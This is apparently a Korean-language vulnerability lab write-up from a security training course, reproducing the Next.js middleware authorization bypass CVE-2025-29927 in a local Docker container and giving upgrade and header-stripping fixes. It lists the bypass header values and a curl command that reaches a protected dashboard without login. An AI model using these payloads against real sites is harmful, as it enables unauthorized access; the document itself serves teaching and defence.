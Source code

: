 # Next.js Middleware Authorization Bypass (CVE-2025-29927)
> 화이트햇스쿨 3기 17반 박민영</br>
> 깃허브 링크 (https://github.com/minyoung13/kr-vulhub/tree/minyoung13/CVE-2025-29927) </br>
> Pull Request #260 (https://github.com/gunh0/kr-vulhub/pull/260)

## 1. Next.js 미들웨어 인증 우회 취약점이란?
이 취약점은 Next.js 웹 프레임워크에서 발생하는 보안 취약점으로, 공격자가 미들웨어 기반의 인증 절차를 우회하여 시스템에 접근할 수 있게 한다.
공격자는 특정 값을 가진 `x-middleware-subrequest` 헤더를 추가함으로써 미들웨어를 우회할 수 있으며, 이를 통해 인증되지 않은 사용자가 인증이 필요한 페이지에 무단으로 접속하여 공격할 수 있다. 

### 공격 예시
프레임워크의 버전에 따라 아래와 같은 값을 요청에 추가하면 미들웨어를 우회할 수 있다.</br>
`x-middleware-subrequest: pages/_middleware`</br>
`x-middleware-subrequest: middleware`</br>
`x-middleware-subrequest: src/middleware`</br>
`x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware`</br>

## 2. 취약한 환경 구성
1. `docker compose up -d` 명령어로 Next.js 15.2.2 버전의 컨테이너를 시작한다.
![image](https://github.com/user-attachments/assets/cb593947-95c8-409a-a8fe-14a060a002b9)

2. `docker ps` 명령어로 실행 중인 컨테이너 목록을 확인한다.
![image](https://github.com/user-attachments/assets/3a299e89-c961-4c5e-95dd-bc635b6f3285)

3. 애플리케이션이 시작되면, `http://localhost:3000` 주소를 방문할 때 로그인 페이지로 리디렉션된다.</br>
![image](https://github.com/user-attachments/assets/3c800e3f-83be-4bee-bdbb-ad36c1a634d1)

 `admin/password`를 입력하여 로그인하면 대시보드에 접근할 수 있다.
   ![image](https://github.com/user-attachments/assets/a1c21614-a455-49cc-b57d-417ff6902541)
   
## 3. 취약점 재현
- 인증 과정 없이 대시보드에 접근하려고 하면 로그인 페이지로 리디렉션된다.

```bash
curl -i http://localhost:3000
```

![image](https://github.com/user-attachments/assets/d3cd332d-90de-4321-82cb-0ea673eef2a9)

- http 요청에 `x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware` 값을 추가하면 미들웨어를 우회하여, 인증 없이 대시보드에 접근할 수 있다.

```bash
curl -i -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" http://localhost:3000
```

  ![image](https://github.com/user-attachments/assets/5708f8fc-7299-4806-aeb0-8f9a093c769f)

## 4. 취약점 대처 방안
해당 취약점이 수정된 버전으로 업그레이드하여 사용하여야 한다.
- Next.js 15.x → 15.2.3
- Next.js 14.x → 14.2.25
  
업그레이드하지 못하거나 아래의 버전의 경우 `x-middleware-subrequest` 헤더가 포함된 외부 요청이 애플리케이션에 도달하지 못하도록 해당 헤더를 제거하거나 차단하도록 구성하여야 한다.
- Next.js 11.1.4~13.5.6 

## 5. 참고자료
[vulhub/next.js/CVE-2025-29927(영어)
](https://github.com/vulhub/vulhub/tree/master/next.js/CVE-2025-29927/README.md)</br>
[vulhub/next.js/CVE-2025-29927(중국어)](https://github.com/vulhub/vulhub/tree/master/next.js/CVE-2025-29927/README.zh-cn.md)</br>
[CVE-2025-29927: Next.js Middleware Authorization Bypass - Technical Analysis](https://projectdiscovery.io/blog/nextjs-middleware-authorization-bypass)</br>
[Next.js and the corrupt middleware: the authorizing artifact](https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware)
